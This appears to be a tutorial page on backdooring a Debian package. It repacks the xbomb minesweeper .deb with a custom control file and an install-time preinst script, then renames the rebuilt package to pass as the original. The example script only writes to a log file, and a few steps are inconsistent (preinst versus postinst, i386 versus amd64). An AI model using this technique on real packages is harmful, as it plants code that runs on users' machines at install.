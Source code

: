 Refs:
* <https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/>
* <https://github.com/UndeadSec/Debinject>
* <https://fabianlee.org/2018/09/28/ubuntu-customizing-and-repacking-a-deb-file/>
* <http://www.securitytube.net/video/618>

```bash
# Download the .deb file in which you want to install the backdoor
$ sudo apt-get --download-only install xbomb

# Make a directory and copy .deb file into the newly created directory
$ mkdir /tmp/evil
$ sudo mv /var/cache/apt/archives/xbomb_2.2b-1build1_amd64.deb /tmp/evil
$ cd /tmp/evil/

# Extract the contents of .deb package into work directory
$ dpkg -x xbomb_2.2b-1build1_amd64.deb work

# MakeDEBIAN directory inside work directory
$ mkdir /tmp/evil/work/DEBIAN

# Create a control file inside the DEBIAN directory
:/tmpevil/work/DEBIAN$ cat control

cat control
Package: xbomb
Version: 2.2b-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based minesweeper
 xbomb is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
```
In our DEBIAN directory, we’ll create a file named preinst that contains the following
```bash
:/tmp/evil/work/DEBIAN# cat preinst
#!/bin/sh

echo "ran preinst of ntp client at $(date)." >> /tmp/myntp.log
```
We’ll now make our pre-installation script executable and build our new package. 
The built file will be named work.deb so we will want to change that to xbomb.deb
```bash
:/tmp/evil/work/DEBIAN$ chmod 755 postinst
:/tmp/evil/work/DEBIAN$ dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `xbomb' in `/tmp/evil/work.deb'.
:/tmp/evil$ mv work.deb xbomb.deb
```
